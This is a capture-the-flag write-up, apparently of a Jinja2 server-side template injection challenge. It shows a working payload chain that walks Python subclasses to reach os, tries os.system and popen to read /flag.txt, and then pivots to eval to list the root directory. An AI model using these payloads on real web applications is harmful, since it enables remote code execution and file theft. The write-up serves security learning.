 ## Step 1: Identifying SSTI
```sh
{{ 7 * 7 }}
```

Worked and confirmed we were using Jinja2 template engine.

## Step 2: Enumerating Classes and Locating os
**Listing Python classes:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__() }}
```

**Inspected and Located os:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__ }}
```

## Step 3: Exploitation Attempts
Tried executing attempts directly and got multiple Internal Server Errors or empty responses etc.

```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['os'].system('cat /flag.txt') }}

{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['os'].popen('cat /flag.txt').read() }}

{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['exec']('import os; print(os.popen("ls").read())') }}
```

## Step 4: Pivot to eval()
After some testing we found that `eval()` wad returning values. SO I checked the OS and listed the root directory and found the challenge driectory.

**Testing eval():**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval'](' "test" ') }}
```

**Exploring OS:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").name') }}
```

**List Root:**
```sh
{{ ''.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['__builtins__']['eval']('__import__("os").listdir("/")') }}
```
